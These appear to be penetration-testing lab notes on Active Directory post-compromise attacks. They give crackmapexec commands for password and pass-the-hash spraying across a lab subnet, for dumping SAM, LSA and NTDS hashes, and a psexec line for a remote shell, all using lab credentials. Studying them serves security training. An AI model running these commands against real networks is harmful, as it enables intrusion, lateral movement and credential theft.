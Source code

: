 Attacks covered in this section involve having some sort of credential first.
- Username & Password
- Shell on a machine

**Attacks:**
- Pass the hash
- Pass the password
- Token impersonation 
- Kerberoasting 
- GPP/cPassword attacks
	- https://www.hackingloops.com/gpp-cpassword-attack-the-tale-of-leaked-key/
- Golden Ticket attacks

### Pass the Password Pass the Hash

If we crack a password or can dump the SAM hashes, we can leverage both for lateral movement in networks.

Tools: crackmapexec

Use:
```sh
crackmapexec 10.0.3.0/24 -u fcastle -d MARVEL -p Password1
```

![](img/crackmap01.png)

```sh
crackmapexec <ip/CIDR> -u <username> -d <domain> -p <password>
```

Grab local hashes (metasploit)

![](img/crackmap02.png)

Pass the hash

```sh
crackmapexec <ip/CIDR> -u <username> -H <hash> --local
```

![](img/crackmap03.png)

You don't need to crack the password to pass the hash. 

Install crackmapexec
```sh
sudo apt install crackmapexec
```

View help screen
```sh
crackmapexec --help
```

**New Syntax for CrackMapExec**
```sh
crackmapexec smb <ip/CIDR> -u <username> -d <domain> -p <password> 
```
- It looks like you just need to add the smb part now

So for the lab we'd use
```sh
crackmapexec smb 10.0.3.5/24 -u fcastle -d MARVEL.local -p Password1
```

![](img/crackmap04.png)
_The smb part is not in this command, but make sure to use it_

Here what you're looking at is that crackmap has owned the spiderman account as it already knew about the punisher account (fcastle).

Trying to dump the SAM file, which doesn't always work:
```sh
crackmapexec smb 10.0.3.5/24 -u fcastle -d MARVEL.local -p Password1 --sam
```
- Other options to try and dump
	- lsa
	- ntds

**psexec**
```sh
psexec.py marvel/fcastle:Password1@10.0.3.5
```

We can also use the matasploit version to try and get a meterpreter session.

You want to avoid using this for password spraying because you could end up locking out the users if the have a failed login attempt policy in place. You can try that with a local account. Local accounts don't have the same lockout policy like domain accounts do.

### How to Dump Hashes

Previously, we discover that .142 and .141 have the same local admin account of Frank Castle.












